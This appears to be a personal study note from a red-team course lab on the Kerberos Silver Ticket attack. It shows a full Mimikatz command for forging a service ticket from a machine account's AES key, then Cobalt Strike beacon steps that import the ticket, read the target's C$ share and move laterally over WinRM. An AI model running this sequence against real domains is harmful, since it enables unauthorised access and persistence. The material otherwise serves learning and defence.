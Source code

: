 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Silver Ticket]]  
___

## Description:  
A Silver Ticket is a forged TGS, signed using the secret material (RC4/AES keys) of a machine account. You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence (until the computer account password changes, which is every 30 days by default).

Silver and Golden (below) tickets can be generated "offline" and imported into your session. This saves executing Mimikatz on the target unnecessarily which is better OPSEC. Generating both silver and golden tickets can be done with the Mimikatz `kerberos::golden` module.

On your attacking machine:
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 - aes256_hmac
Service   : cifs
Target    : srv-2
Lifetime  : 25/05/2021 10:30:08 ; 23/05/2031 10:30:08 ; 23/05/2031 10:30:08
-> Ticket : srv2-cifs.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

-   `/user` is the username to impersonate.
-   `/domain` is the current domain name.
-   `/sid` is the current domain SID.
-   `/target` is the target machine.
-   `/aes256` is the AES256 key for the target machine.
-   `/ticket` is the filename to save the ticket as.

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 13:00:02   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/15/2021 14:58:02   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/25/2021 08:39:40   pagefile.sys

beacon> rev2self
```

```
beacon> run klist

Current LogonId is 0:0x2d3d7

Cached Tickets: (2)

#0>    Client: Administrator @ dev.cyberbotic.io
    Server: host/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:04:19 (local)
    End Time:   5/24/2031 17:04:19 (local)
    Renew Time: 5/24/2031 17:04:19 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

#1>    Client: Administrator @ dev.cyberbotic.io
    Server: http/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:06:34 (local)
    End Time:   5/24/2031 17:06:34 (local)
    Renew Time: 5/24/2031 17:06:34 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

beacon> jump winrm64 srv-2 smb
[+] established link to child beacon: 10.10.17.68
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
